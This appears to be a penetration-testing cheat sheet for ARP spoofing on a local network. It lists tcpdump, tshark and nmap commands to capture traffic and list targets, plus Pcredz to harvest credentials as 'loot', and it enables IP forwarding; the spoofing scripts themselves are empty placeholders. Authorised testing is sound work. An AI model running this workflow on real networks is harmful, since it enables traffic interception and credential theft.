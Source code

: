 

## Arp Spoofing (godmode)

Initial PCap
```bash
timeout 10m tcpdump -ni eth0 -w initial.cap 'not (port <x> and tcp)'
```
Protocol Statistics:
```bash
tshark -qz io,phs -r initial.cap
```

Nmap scan your local subnet to create a list of host to spoof.
```bash
nmap -sP -oG - -v -n SUBNET --exclude MYIP,ROUTERIPS | grep 'Status: Up' | cut -d' ' -f2 > mysubnethosts.txt
```

Use the Initial PCap to discover HSRP or VRRP, and remove router IPs any host using HSRP or VRRP from the mysubnethosts.txt file.

Set up tooling
```bash
# Pcredz
sudo Pcredz -i eth0
```

tcpdump to capture files sent over the wire
```bash
# {x} here being iteration. its good to do multiple captures to keep pcap file sizes small
tcpdump -ni eth0 -w arpspoof{x}.cap 'not port {port used to connect to box if remote}'
```

Enable traffic forwarding (plz no DoS network)
```bash
echo "1" > /proc/sys/net/ipv4/ip_forward
```

### Python scripts to generate script arp spoof script

Python2
<details><summary> Click me for the script</summary></details>

<br>

Python3 (WIP)
<details><summary> Click me for the script</summary></details>

<br>

### The Process:

**Before any of this, check to see if VSRP or HRRP are running on any host on the network and be sure to exclude them from your host list.**

First you want to make sure to enable ip forwarding, so that you don't DoS the network.

Then run pcredz in its own window. This will run in the background and display all loot.
Note: You can run a `script -a pcredz.txt` to start a script before hand so that all of the loot is dumped into a script file for coming back to later.
